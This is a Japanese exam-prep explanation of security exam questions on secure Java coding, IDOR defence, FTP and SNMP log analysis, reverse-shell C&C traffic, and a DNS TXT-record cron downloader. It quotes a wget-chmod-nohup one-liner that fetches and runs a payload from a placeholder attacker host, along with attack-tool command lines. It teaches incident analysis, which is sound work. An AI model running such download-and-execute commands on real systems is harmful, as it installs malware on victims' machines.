- **g**：図6は `public OrderInfoBean getOrderInfoBean( g ) {` という**メソッドのシグネチャ**。引数リストなので**型＋変数名**、すなわち `String orderNo` を書く。変数名だけ（`orderNo`）ではJavaとして成立しないので減点対象。
- **h**：図7の1行目は `OrderInfoBL orderInfoBLObj = h OrderInfoBL();` ── インスタンス生成なので `new`。修正(1)で `setOrderNo` が消え、修正(2)で `static` が外れているため、もはや `OrderInfoBL.getOrderInfoBean()` というクラス名経由の呼出しはできない。
- **i**：`orderInfoBLObj.` に続くので、**メソッド呼出しの形**で書く。引数を渡さないと修正(2)と噛み合わないため `getOrderInfoBean(orderNo)`。この `orderNo` は図5の3行目で宣言されたローカル変数。

**+α**：これは「**状態をフィールドに置かず、引数と戻り値で受け渡す**」というスレッドセーフ設計の基本形。ステートレスに保てば、インスタンスを使い回してもシングルトンにしても安全になる。逆に「setterで状態を設定してからgetterで取り出す」2段構えのAPIは、マルチスレッド環境では設計そのものが危険という教訓。

---

### 設問2(5)　空欄j（保険的な対策で追加する属性）

> **(5)** 本文中の **j** に入れる適切な属性名を、図3中から選び、答えよ。

**解答**：**得意先コード**

**解説**
本文の修正(4)は次のとおり。

> 図4の10行目の抽出条件に、**セッションオブジェクトに保存された j** と**注文ヘッダーテーブルの j** の完全一致の条件を AND 条件として追加する。

図3のE-R図を見ると、**注文ヘッダーテーブル**が持つ属性は「注文番号（主キー）／注文日時／**得意先コード**（外部キー）／注文総額／消費税額」。利用者IDは持っていない。
一方、本文に「ログイン処理時に、ログインした利用者IDと、**利用者IDにひも付く得意先コード**及び得意先名はセッションオブジェクトに保存されている」とある。両方に存在するのは**得意先コード**。

したがって修正後のSQLはこうなる。

```sql
WHERE head.order_no = ? AND head.client_code = ?   -- ← 後者はセッションの得意先コード
```

万一また注文番号が取り違えられても、**ログイン中の得意先の注文しかヒットしない**ので、他社の注文情報は絶対に返らない。

**2つの条件をANDで結ぶ**



**+α**：ここは単なる穴埋めではなく、**アクセス制御を検索条件に組み込む**という重要パターン。
- 本来の脆弱性名でいえば **IDOR（Insecure Direct Object Reference）／水平方向の権限昇格**の対策。「注文番号を総当たりされたら他社の情報が見える」という、本問とは別経路のリスクも同時に塞げる。
- **必ずサーバ側が保持する値（セッション）を使う**こと。画面やリクエストパラメータから受け取った得意先コードを条件にしたら、改ざんされて意味を失う。
- 「保険的な対策」という表現は**多層防御（Defense in Depth）**の意。根本原因（`static`）を直した上で、なお残る取り違えリスクをデータアクセス層でも止める、という二段構え。

---

### 問1の学習ポイントまとめ

| 論点                     | 押さえる要点                                                                                                                             |
| ------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------- |
| SAST                     | 静的解析は「実行せずにコードを検査」。早期発見できるが偽陽性が出る。本問のように**SQLi・トラバーサル・リソースリーク**が典型的な検出対象 |
| SQLインジェクション      | **プレースホルダ**が根本対策。`?` は引用符ごと置き換える。`prepareStatement()` はSQL文完成後に呼ぶ                                       |
| ディレクトリトラバーサル | 利用者入力を**パス名の組み立てに使わない**。使うなら許可リスト＋正規化後の配下チェック                                                   |
| リソース解放漏れ         | 機密性ではなく**可用性**の問題。try-with-resources／finally                                                                              |
| レースコンディション     | `static`・インスタンスフィールドで状態を共有しない。**引数と戻り値**で渡す                                                               |
| 多層防御                 | 根本対策＋**セッション由来の値を検索条件に入れる**保険的対策                                                                             |

---

<div style="page-break-before:always"></div>

## 問2 セキュリティインシデント（R社）

### 題材の整理

| 項目       | 内容                                                                                                                                                                 |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 企業       | R社：精密機器の部品を製造する従業員250名の中堅製造業者。本社に隣接した場所に工場                                                                                     |
| 体制       | 情報システム課のU課長、Mさん、Nさん。ログは**ログ管理サーバで一元管理**                                                                                              |
| セグメント | DMZ `192.168.0.0/24`（受付サーバ .1／DBサーバ .2／メールサーバ .3）／利用者LAN `192.168.2.0/24`／工場LAN `192.168.1.0/24`（製造管理サーバ .145）。各サーバはLinux    |
| 監視       | DMZ上のサーバで**1分間に10回以上のログイン失敗**が発生するとメールでアラート                                                                                         |
| FW         | ステートフルパケットインスペクション型。**インターネット→受付サーバは443/TCPだけ許可**／**受付サーバ→インターネットはOSアップデート用に443/TCPだけ許可**             |
| 業務アプリ | 受付サーバ：受注情報をDBサーバに保管するWebアプリ／DBサーバ：受注情報をファイル化して**FTPで製造管理サーバへ送信**する情報配信アプリ。いずれも**10年以上の稼働実績** |
| 原因       | 受付サーバのWebアプリが使用している**ライブラリの脆弱性**を悪用された                                                                                                |

**出題趣旨**：ライブラリの脆弱性に起因するセキュリティインシデントを題材として、不正アクセスの調査を行う上で必要となる**ログを分析する能力**や**攻撃の痕跡を調査する能力**を問う。

**時系列の全体像**（表1〜表3を時刻順に並べ直すと攻撃の流れが一本につながる）

| 時刻         | 出来事                                                         | 根拠                                                  |
| ------------ | -------------------------------------------------------------- | ----------------------------------------------------- |
| 15:00, 15:01 | 攻撃者 `a0.b0.c0.d0` → 受付サーバ 443/TCP（許可）              | 表1 1-1, 1-2 …ライブラリ脆弱性の悪用                  |
| 15:01        | `srv` を**バインドモード**（8080待受）で起動                   | 表2 2-3（PPID 7438＝Webアプリのjava）／表3 3-3 LISTEN |
| 15:03        | 攻撃者 → 受付サーバ 8080/TCP が**拒否**                        | 表1 1-3 …**接続失敗**                                 |
| 15:08        | `srv` を**コネクトモード**で起動し、外向き443/TCPで接続        | 表2 2-4／表3 3-4 ESTABLISHED／表1 1-4 **許可**        |
| 15:14        | 子プロセスでポートスキャン開始                                 | 表2 2-5（PPID 1293）                                  |
| 15:15〜15:24 | 工場LANへのスキャン（161/UDP拒否、21/22への接続試行）          | 表1 1-232, 1-286〜1-287, 1-327〜1-328                 |
| —            | 別途、cron に**DNS TXTレコード経由のダウンローダ**が仕込まれる | 図2 …暗号資産マイニング                               |

**攻撃の流れ**



---

### 設問1　空欄a（FTPのデータコネクションのモード）

> **設問1**　本文中の **a** に入れる適切な字句を答えよ。
>
> 　（本文：DBサーバから製造管理サーバに対してFTP接続が行われ、DBサーバから製造管理サーバにFTPの **a** モードでのデータコネクションがあった。）

**解答**：**パッシブ**

**解説**
本文の該当箇所は、FWログの調査で分かったことの4つ目。

> DBサーバから製造管理サーバに対してFTP接続が行われ、DBサーバから製造管理サーバにFTPの **a** モードでのデータコネクションがあった。

表1の該当ログはこの2行。

| 項番  | 送信元                  | 宛先                            | 送信元ポート | 宛先ポート    | 動作 |
| ----- | ----------------------- | ------------------------------- | ------------ | ------------- | ---- |
| 1-233 | 192.168.0.2（DBサーバ） | 192.168.1.145（製造管理サーバ） | 55432/TCP    | **21/TCP**    | 許可 |
| 1-234 | 192.168.0.2（DBサーバ） | 192.168.1.145（製造管理サーバ） | 55433/TCP    | **60453/TCP** | 許可 |

**FTPの2つのモードの違い**

| モード         | 制御コネクション                 | データコネクション                                             | ログ上の見え方                         |
| -------------- | -------------------------------- | -------------------------------------------------------------- | -------------------------------------- |
| **アクティブ** | クライアント → サーバ **21/TCP** | **サーバ 20/TCP → クライアント**（逆方向に接続）               | 送信元と宛先が**入れ替わった**行が出る |
| **パッシブ**   | クライアント → サーバ **21/TCP** | **クライアント → サーバの高位ポート**（`PASV` でサーバが通知） | 制御と**同じ向き**の行が並ぶ           |

**アクティブモード**



**パッシブモード（本問の該当箇所）**



1-234 は 1-233 と**同じ向き**（DBサーバ→製造管理サーバ）で、宛先が 60453/TCP という高位ポート。アクティブモードなら `192.168.1.145:20 → 192.168.0.2:xxxxx` という逆向きの行になるはずなので、**パッシブモード**と判断できる。

**この設問が問2全体で果たす役割**
ここでパッシブモードの見え方を確定させておくことが、直後の推論の土台になる。

> 受付サーバと他のサーバとの間では**FTPのデータコネクションはなかった**。
> → 攻撃者によるDMZと工場LANとの間の**ファイルの送受信はない**と推測した。

受付サーバからは 1-286（21/TCP 許可）という**制御コネクションだけ**があり、それに続く高位ポート宛の行が存在しない。「正規のFTP転送なら2行セットで現れる」ことを知っていて初めて、「1行しかない＝制御接続は張ったがファイルは動いていない」と言い切れる。**被害範囲の確定**をログだけで行う、というのがこの問の肝。

**2行セットの有無で被害範囲を確定する**



**+α**
- パッシブモードが普及したのは、**クライアント側のFW／NATがアクティブモードの逆方向接続を通せない**ため。
- FWにとってはパッシブモードの**データポートが動的に決まる**のが扱いづらく、FTP ALG（アプリケーションレベルゲートウェイ）で `PASV` 応答を覗いて動的に穴を開ける実装が一般的。R社のFWもDMZ→工場LANのFTPを通す設定になっている。
- そもそも**FTPは制御もデータも平文**。10年以上稼働しているレガシーアプリという設定であり、最後の「過去に開発されたアプリ及びネットワーク構成をセキュリティの観点で見直す」につながる伏線になっている（SFTP／FTPSへの移行が定石）。

---

### 設問2(1)　空欄b（SNMPv2cの`public`）

> **設問2**　〔受付サーバのプロセスとネットワーク接続の調査〕について答えよ。
> **(1)** 本文中の **b** に入れる適切な字句を、10字以内で答えよ。

**解答**：**コミュニティ**（名）

**解説**
攻撃ツール `srv` の特徴のひとつ。

> SNMPv2c で `public` という **b** 名を使って、機器のバージョン情報を取得し、結果ファイルに記録する。

SNMPv1／v2c における**コミュニティ名**は、マネージャとエージェントで共有する文字列で、事実上の**パスワード代わり**。しかも**平文で送られる**。既定値が `public`（読取り）／`private`（書込み）であり、変更されていない機器が今なお多いため、攻撃者にとっては「まず試す値」になる。

取得できるのは機器のベンダー名・機種・**ファームウェア／OSのバージョン**など。攻撃者はこれを**既知脆弱性の絞り込み（偵察フェーズ）**に使う。

表1の項番 **1-232**（`192.168.0.1 → 192.168.1.122` 34215/UDP → **161/UDP** 拒否）が、この動作がFWで止められた痕跡。

**+α**
- **SNMPv3** で認証（authPriv）と暗号化を使うのが本来の対策。v2c しか使えない場合は、コミュニティ名を推測困難な値に変更し、**マネージャのIPアドレスからのアクセスに限定**する。
- 161/UDP を外部に晒すと、**SNMP リフレクション／アンプ攻撃**の踏み台にもなる。
- 用語の近縁：NTPの `monlist`、DNSのオープンリゾルバと同様、「**UDPの管理系サービスを開けっぱなしにしない**」という同じ教訓。

---

### 設問2(2)(3)　空欄c・d と 下線①②の判断理由

> **(2)** 本文中の **c** に入れる適切な字句を、"バインド"又は"コネクト"から選び答えよ。また、下線①について、Mさんがそのように判断した理由を、表1〜表3中の項番を各表から一つずつ示した上で、40字以内で答えよ。
> **(3)** 本文中の **d** に入れる適切な字句を、"バインド"又は"コネクト"から選び答えよ。また、下線②について、Mさんがそのように判断した理由を、表1〜表3中の項番を各表から一つずつ示した上で、40字以内で答えよ。
>
> 　（本文：攻撃者は、一度、srvの **c** モードで、①C&Cサーバとの接続に失敗した後、srvの **d** モードで、②C&Cサーバとの接続に成功した。）

**解答**

| 空欄 | 解答         | 下線の理由（40字以内）                                                   |
| ---- | ------------ | ------------------------------------------------------------------------ |
| c    | **バインド** | **2-3 によって起動した 3-3 のポートへの通信が 1-3 で拒否されているから** |
| d    | **コネクト** | **2-4 によって開始された 3-4 の通信が 1-4 で許可されているから**         |

**設問の指示**：「表1〜表3中の項番を**各表から一つずつ**示した上で、40字以内で」──つまり**表1から1つ・表2から1つ・表3から1つ**、計3つの項番を必ず書く。ここを落とすと大きな失点になる。

**c＝バインドモードで失敗したことの証明**

| 表  | 項番    | 内容                                                                       | 読み取れること                                                                  |
| --- | ------- | -------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| 表2 | **2-3** | `./srv -c -mode bind 0.0.0.0:8080`（04/21 15:01、PID 1275、**PPID 7438**） | バインドモードで**8080で待ち受ける**プロセスを起動した                          |
| 表3 | **3-3** | `0.0.0.0:8080` **LISTEN** PID 1275                                         | 実際に8080で待ち受けている（＝**ESTABLISHEDではない**＝誰も接続してきていない） |
| 表1 | **1-3** | 04/21 15:03 `a0.b0.c0.d0 → 192.168.0.1` 8080/TCP **拒否**                  | 攻撃者が8080へ接続を試みたが、**FWで拒否**された                                |

FWは「インターネットから受付サーバへの通信は**443/TCPだけ**許可」なので、8080宛のインバウンドは届かない。バインドモードは**外部からの接続を待ち受ける**方式なので、この構成では原理的に成立しない。

**d＝コネクトモードで成功したことの証明**

| 表  | 項番    | 内容                                                                 | 読み取れること                                         |
| --- | ------- | -------------------------------------------------------------------- | ------------------------------------------------------ |
| 表2 | **2-4** | `./srv -c -mode connect a0.b0.c0.d0:443`（04/21 15:08、PID 1293）    | コネクトモードで**自ら外へ接続**するプロセスを起動した |
| 表3 | **3-4** | `192.168.0.1:54543 → a0.b0.c0.d0:443` **ESTABLISHED** PID 1293       | 接続が**確立している**                                 |
| 表1 | **1-4** | 04/21 15:08 `192.168.0.1 → a0.b0.c0.d0` 54543/TCP → 443/TCP **許可** | FWを**通過**した                                       |

受付サーバからインターネットへは「OSアップデートのために443/TCPだけ許可」していた。攻撃者はその**唯一開いている外向きの穴**を使ってC&C通信を成立させた。3-3のLISTEN（接続なし）と3-4のESTABLISHED（接続あり）の対比、ソースポート54543が表1と表3で一致している点も、同一通信であることの裏付けになる。

**バインドは失敗し、コネクトは成功する**



**+α：この問の最大の教訓**
- **インバウンドを絞ってもアウトバウンドが緩いと意味がない**。「443だけ許可」はインバウンドでは強い制限だが、アウトバウンドでは **HTTPSを装ったC&C通信をそのまま通す**。
- 対策は、サーバセグメントからの外向き通信を**プロキシ経由に限定**し、**接続先FQDNを許可リスト**で管理すること（OSアップデートなら配布サイトのみ）。宛先IP直打ちの443を止められる。
- 用語としては、バインドモード＝**バインドシェル**、コネクトモード＝**リバースシェル**。実際の攻撃ではほぼ後者が使われる理由がまさにこのログで説明できる。

---

### 設問2(4)　空欄e（ポートスキャンを実行したプロセスのPID）

> **(4)** 本文中の **e** に入れる適切な数を、表2中から選び答えよ。
>
> 　（本文：攻撃者は、C&Cサーバとの接続に成功した後、ポートスキャンを実行した。ポートスキャンを実行したプロセスのPIDは、**e** であった。）

**解答**：**1365**

**解説**
表2の項番2-5がポートスキャンのプロセス。

```
2-5  app  PID=1365  PPID=1293  04/21 15:14  ./srv -s -range 192.168.0.1-192.168.255.254
```

3つの根拠が揃う。

1. **コマンドライン**：`-range 192.168.0.1-192.168.255.254` とスキャン範囲が指定されている
2. **PPID＝1293**：コネクトモードでC&C接続に成功したプロセス（2-4）の**子プロセス**。ツールの特徴「C&Cサーバから指示を受け、**子プロセスを起動して**ポートスキャンなど行う」と一致
3. **開始時刻 15:14**：C&C接続成功（15:08）の**後**。本文の「C&Cサーバとの接続に成功した**後**、ポートスキャンを実行した」と時系列が合う

裏付けとして表3の項番3-5が `192.168.0.1:64651 → 192.168.253.124:21` **SYN_SENT** PID **1365**。SYN_SENT は「SYNを送ったが応答待ち」＝まさにスキャン中の状態を示している。

**+α：プロセス一覧の読み方**

| 項番                   | 開始日時               | 判定                                       |
| ---------------------- | ---------------------- | ------------------------------------------ |
| 2-1 `sshd`、2-2 `java` | **04/01** 10:10, 10:11 | 平常時から動いている**正規プロセス**       |
| 2-3〜2-5 `srv`         | **04/21** 15:01〜15:14 | インシデント当日に起動した**不審プロセス** |

- **開始日時でふるいにかける**のがプロセス調査の基本。
- **PPIDの連鎖を辿る**と侵入経路が見える。2-3・2-4 の PPID は **7438＝Webアプリのjavaプロセス**。つまり「Webアプリのプロセスから見知らぬプログラムが起動された」＝**Webアプリ経由のコード実行**の動かぬ証拠であり、最終的な結論（ライブラリの脆弱性の悪用）と整合する。
- 利用者IDが `root` ではなく `app`（Webアプリ稼働用）である点も重要。**最小権限**が効いていたため、OS全体の掌握までは進まなかったと読める。

**プロセスツリー（PPIDの連鎖）**



---

### 設問3(1)　下線③　TXTレコードなら攻撃できる理由（30字以内）

> **設問3**　〔受付サーバの設定変更の調査〕について答えよ。
> **(1)** 本文中の下線③について、Aレコードではこのような攻撃ができないが、TXTレコードではできる。TXTレコードではできる理由を、DNSプロトコルの仕様を踏まえて30字以内で答えよ。
>
> 　（下線③：**機器の起動時にDNSリクエストを発行して、ドメイン名△△△.com のDNSサーバからTXTレコードのリソースデータを取得し、リソースデータの内容をそのままコマンドとして実行する**）

**解答**：**TXTレコードには任意の文字列を設定できるから**

**攻撃の構図**
下線③は「機器の起動時にDNSリクエストを発行して、`△△△.com` のDNSサーバから**TXTレコードのリソースデータ**を取得し、**リソースデータの内容をそのままコマンドとして実行する** cron エントリー」。

実際に `dig` で取得されたリソースデータ（図2）。

```bash
wget https://a0.b0.c0.d0/logd -q -O /dev/shm/logd && chmod +x /dev/shm/logd && nohup /dev/shm/logd & disown
```

**DNS TXTレコードを使ったダウンローダの流れ**



**解説**
DNSのリソースレコードは**型ごとに格納できるデータ形式が決まっている**。

**Aレコードと TXTレコードの比較**

| 観点                              | **A レコード**                                                                                                         | **TXT レコード**                                                                                                                            |
| --------------------------------- | ---------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------- |
| TYPE値                            | **1**                                                                                                                  | **16**                                                                                                                                      |
| 定義                              | RFC 1035                                                                                                               | RFC 1035（書式は RFC 1464 など）                                                                                                            |
| 正式名                            | Address                                                                                                                | Text                                                                                                                                        |
| **本来の目的**                    | ホスト名（FQDN）から**IPv4アドレスを引く**（正引き）                                                                   | ドメインに**任意のテキスト情報を関連付ける**                                                                                                |
| **RDATA の形式**                  | **32ビットのIPv4アドレス**（4オクテットのバイナリ）                                                                    | **1個以上の character-string**（先頭1オクテットの長さ＋その文字列）                                                                         |
